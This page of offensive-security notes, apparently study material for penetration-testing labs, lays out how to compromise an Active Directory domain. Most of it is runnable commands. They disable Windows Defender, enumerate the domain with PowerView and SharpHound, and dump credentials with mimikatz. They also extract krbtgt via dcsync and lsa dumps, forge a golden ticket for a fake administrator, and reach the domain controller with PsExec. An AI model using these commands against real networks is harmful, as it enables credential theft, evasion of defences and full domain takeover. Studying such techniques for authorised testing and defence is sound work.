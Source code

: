 # Active Directory Exploitation

---

[Back to Table of Contents](../cysec)

># Overview
 - Overview
 - Enumeration and Exploitation Tools
 - Genera Exploitation Pathway Examples

---
## AD: General Pathways

A few of the many exploitation pathways:
 - Exploiting a web-app --> lateral movement throughout the network --> domain compromise
 - Exploiting a network/service vulnerability --> lateral movement throughout the network --> domain compromise
 - Exploiting a client-side attack to compromise a user --> later movement --> domain compromise
 - Direct domain compromise and subsequent downstream lateral movement (although machines 
 in which this path was observed were substantially less realistic in my opinion)

---
## AD: Enumeration and Assessment

After gaining access to a machine within an AD network, it is essential to enumerate the environment and
understand the network, the domain, the machines within it, and where the compromised machine stands in relation
to the environment (permissions, groups, routes to admin, etc.).

Enumeration of AD can be done in various ways and many tools exist. Among them, some of the most popular and useful include sharphound/bloodhound, 
powerview, impacket, and of course, powershell.

---
## Useful Resources:
https://wadcoms.github.io/

https://www.ired.team/offensive-security-experiments/active-directory-kerberos-abuse/active-directory-enumeration-with-powerview

https://book.hacktricks.xyz/windows-hardening/active-directory-methodology

---
## Tools
- ldapmonitor
- rubeus
- kerbrute
- impacket tools
- powerview
- sharphound
- bloodhound
- mimikatz
- pypykatz
- winpeas / windows privescheck

---

### Powerview

Disable Monitoring
```
Set-MpPreference -DisableRealtimeMonitoring $true
```

Get Domain Info
```
Get-Domain
Get-DomainController
Get-Domain -Domain domain.local
Get-DomainController -Domain domain.local
Get-DomainUser
Get-DomainSID
Get-DomainPolicy
(Get-DomainPolicy)."SystemAccess"
Invoke-ShareFinder
Invoke-MapDomainTrust
```
---
### Common Privilege Escalation Methods
Overview:
- Generally revolves around results from enumeration regarding user privileges and misconfigurations. Enumeration also extends to system data which can also result in kernel exploits, just as with Linux.
Some common vectors include:
- SeImpersonate.. --> juicy potato or lovely potato (automated powershell implementation)
- UACBypass --> accesschk.exe, psexec64.exe
- Hash/password dumping


---

### Using Bloodhound
File transfer --> download sharphound --> exfiltrate the data --> view data in bloodhound
--> identify valuable accounts or pathways within the domain --> use relevant tools to try to exploit those accounts
and move laterally

```powershell
.\sharphound.exe -c Default, GPOLocalGroup, LoggedOn --zipfilename output
```
---
Use mimikatz to find vulnerable accounts with weak passwords to be used for further exploitation:
```powershell
privilege::debug

sekurlsa::logonPasswords
 ```
---
## Pass the Ticket Example

Identify service principals:
 - Get-UserSPNs.ps1

Request ticket for vulnerable SPN (this can be done with mimikatz or via powershell):

powershell method:
```
Add-Type –AssemblyName System.IdentityModel

New-Object System.IdentityModel.Tokens.KerberosRequestorSecurityToken –ArgumentList ‘SPN'
```

mimikatz method:

```
kerberos::ask /user:spn /domain:domain /password:password /ptt
```

Dump the ticket and use it either crack the hash or as a means to facilitate a pass the ticket attack. 
```powershell
kerberos::list /export

lsaDump::dcsync /user:krbtgt

lsadump::lsa /inject /name:krbtgt

kerberos::golden /domain:domain.com /sid:xxxxxxxxx-xxxxxxxxxx /rc4:xxxxx /user:fake_admin /id:500 /ptt
```

Accessing the DC with Admin privileges:

```
PsExec64.exe \\domain-dc01\ cmd.exe 
```
```
pushd \\domain-dc01\c$
cd \\domain-dc01\c$
```
